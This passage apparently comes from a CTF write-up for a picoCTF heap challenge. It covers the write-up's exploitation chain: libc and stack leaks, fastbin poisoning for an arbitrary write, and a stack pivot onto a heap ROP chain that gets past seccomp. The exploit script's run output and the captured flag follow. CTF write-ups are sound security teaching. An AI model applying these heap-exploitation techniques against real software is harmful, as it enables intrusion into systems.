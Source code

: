 ### leaking libc and stack

Armed with the program base and an arbitrary read, it's pretty trivial to leak the base of libc from the GOT. We can then do something similar with libc.  Libc has two symbols which point onto the stack -- "\_\_libc_argv" and "environ".  We can just arbitrary read those and then calculate stack offsets off that. 

### arbitrary write?

I [poisoned fastbin](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/fastbin_dup_into_stack.c) to get malloc to return an arbitrary pointer. I found that I could only do this once because fastbin just sorta stopped filling and I'm not really familiar enough with heap exploitation to speculate as to why. Although potentially possible to fix, I ended up not bothering because I found a way to pivot the 24 byte write into an arbitrary length ROP. 

### pivoting onto a heap ROP chain

We have arbitrary write, but restricted to 24 bytes and can only do it once. What can we do with that? Can't use a one_gadget because of seccomp, highly likely we will need to construct our own chain to print the flag. Turns out, libc has a handy "pop rsp; ret;" gadget for us to play with. We can just allocate a big name, drop our ROP chain onto that, and then pivot stack onto that. At this point we have an arbitrarily large ROP chain and can just open/read/write our way to the flag. 

```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/vr-school/chall.patch'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/vr-school/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/vr-school/ld-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mars.picoctf.net on port 31638: Done
[*] heap base: 0x561a01961000
[*] program base: 0x5619ffa9c000
[*] libc base: 0x7f63ad50c000
[*] stored RIP: 0x7fff1e4faad8
[*] Switching to interactive mode
picoCTF{0nl1ne_d3bat3_sux}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
